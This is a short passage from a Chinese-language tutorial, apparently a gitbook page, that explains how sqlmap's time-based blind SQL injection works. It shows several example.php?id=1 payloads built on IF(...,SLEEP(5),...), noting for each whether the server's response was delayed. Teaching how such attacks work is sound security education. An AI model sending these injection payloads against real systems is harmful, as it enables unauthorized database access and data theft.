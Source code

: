 响应发生了延迟。第二个逻辑：

```text
example.php?id=1 AND 7052=IF((19=55),SLEEP(5),7052)
```

![](../../.gitbook/assets/sqlmap50.jpg)

响应未发生延迟。第三个逻辑：

```text
example.php?id=1 AND 1148=IF((19=58),SLEEP(5),1148)
```

![](../../.gitbook/assets/sqlmap51.jpg)

响应未发生延迟。第四个逻辑：

```text
example.php?id=1 AND 6574=IF((55=55),SLEEP(5),6574)
```

![](../../.gitbook/assets/sqlmap52.jpg)
